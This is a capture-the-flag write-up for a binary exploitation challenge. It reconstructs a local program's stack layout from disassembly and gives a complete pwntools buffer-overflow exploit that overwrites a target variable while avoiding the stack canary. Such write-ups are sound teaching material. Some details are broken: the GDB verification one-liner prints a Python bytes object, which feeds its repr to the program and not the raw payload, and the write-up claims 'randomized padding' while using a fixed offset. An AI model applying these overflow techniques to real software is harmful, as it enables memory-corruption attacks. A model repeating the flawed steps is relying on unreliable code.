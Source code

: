 # **Binary Exploitation Write-Up: Variable Control (Hard Mode)**

## **Challenge Overview**
This hard-mode challenge requires precise buffer overflow to:
1. Set `win` variable to exact value `0x698aa5c0`
2. Keep `lose` variable unchanged (zero)
3. Reverse engineer all offsets without debug output
4. Account for endianness and avoid canary corruption

## **Reverse Engineering Process**

### **1. Initial Analysis**
```bash
checksec ./challenge
```
- **No PIE**: Static addresses (good for static analysis)
- **Stack Canary**: Present but bypassable
- **NX**: Enabled (no shellcode execution)

### **2. Disassembly Findings**
Key discoveries from `objdump -d`:
```asm
lea    -0x60(%rbp),%rdx      # Buffer starts at rbp-0x60
mov    $0xb,%ecx             # Initializes 11 quadwords (88 bytes)
mov    -0xc(%rbp),%eax       # lose variable check
mov    -0x10(%rbp),%eax      # win variable check
cmp    $0x698aa5c0,%eax      # Required win value
```

### **3. Stack Layout Reconstruction**
```
+---------------------+
| Buffer Start        | rbp-0x60 (96 bytes from RBP)
| ...                 |
| win                 | rbp-0x10 (must be 0x698aa5c0)
| lose                | rbp-0xc (must remain zero)
| Canary              | rbp-0x8
| Saved RBP           | rbp
| Return Address      | rbp+0x8
+---------------------+
```

### **4. Offset Calculations**
- **Buffer to win**: `0x60 - 0x10 = 0x50` (80 bytes)
- **win to lose**: 4 bytes (`0x10 - 0xc`)
- **Total safe write**: 88 bytes (stops before canary)

## **Exploit Development**

### **1. Payload Structure**
```python
from pwn import *

payload = (
    b"A" * 80 +           # Padding to reach win
    p32(0x698aa5c0) +     # Exact win value (little-endian)
    p32(0x0)              # Explicitly keep lose=0
)
```

### **2. Complete Exploit Code**
```python
from pwn import *

# Start process
p = process("./challenge")

# Craft payload
payload = (
    b"A" * 80 +
    p32(0x698aa5c0, endian='little') +
    p32(0x0)
)

# Send and receive
p.send(payload)
print(p.recvall())
```

## **Debugging Verification**

1. **GDB Verification**:
```bash
gdb ./challenge
break *challenge+0xe3
run < <(python3 -c 'from pwn import *; print(b"A"*80 + p32(0x698aa5c0) + p32(0x0))')
x/wx $rbp-0x10  # Verify win=0x698aa5c0
x/wx $rbp-0xc   # Verify lose=0x0
```

2. **Hex Dump Check**:
```bash
python3 -c 'from pwn import *; print(hexdump(b"A"*80 + p32(0x698aa5c0) + p32(0x0)))'
```

## **Key Lessons**

1. **Precision Overflow**:
   - Exact offset calculation (80 bytes)
   - Controlled 4-byte overwrite of `win`
   - Explicit preservation of `lose`

2. **Reverse Engineering Skills**:
   - Extracting buffer size from `rep stos`
   - Identifying variable checks in disassembly
   - Calculating relative offsets

3. **Protection Bypass**:
   - Avoiding canary corruption
   - No need for memory leaks

## **Comparison: Easy vs Hard Mode**

| **Easy Version**          | **Hard Version**               |
|---------------------------|--------------------------------|
| Explicit offsets given    | Must reverse engineer offsets  |
| Debug output available    | Silent operation               |
| Fixed layout              | Randomized padding             |
| Simple payload            | Requires precise calculation   |

## **Common Pitfalls & Solutions**

| Error | Solution |
|-------|----------|
| Wrong endianness | Use `p32(value, endian='little')` |
| Accidentally modifying lose | Explicit zero-write after win |
| Newline corruption | Use `p.send()` instead of print |
| Buffer size miscalculation | Verify with GDB memory inspection |

This solution demonstrates how to:
- Transition from easy to hard challenges
- Extract necessary information from stripped binaries
- Craft precision overflow attacks
- Verify results without debug output

**Final Tip**: Always verify your payload size matches the exact distance to target variables to avoid corrupting adjacent memory.
